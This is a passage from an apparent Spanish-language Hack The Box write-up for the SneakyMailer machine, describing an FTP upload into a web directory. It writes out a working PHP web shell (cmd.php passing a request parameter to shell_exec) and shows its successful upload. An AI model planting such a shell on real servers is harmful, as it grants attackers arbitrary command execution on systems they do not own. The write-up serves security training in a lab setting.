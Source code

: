 
Despues de conectarnos visualizamos un directorio `dev` y dentro un contenido de nombre `team.php`, que curiosamente era la ruta de la pagina donde estaban expuestos los correos.

Para poder saber si tenemos permiso de escritura intentaremos subir un archivo de nombre `cmd.php` que con el uso de la función `shell_exec` me ejecute un comando a nivel de sistema que vamos a controlar con el parametro `cmd`

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Comprobamos que efectivamente si podemos subir el archivo

```bash
ftp> put cmd.php
local: cmd.php remote: cmd.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
d226 Transfer complete.
69 bytes sent in 0.00 secs (811.8411 kB/s)
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
--wxrw-rw-    1 1001     1001           69 Apr 08 19:15 cmd.php
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.
ftp>
```

Visitamos la `url`, pero esta vez apuntaremos al fichero que subimos.


![](/assets/images/HTB/htb-writeup-Sneakymailer/sneaky3.PNG)
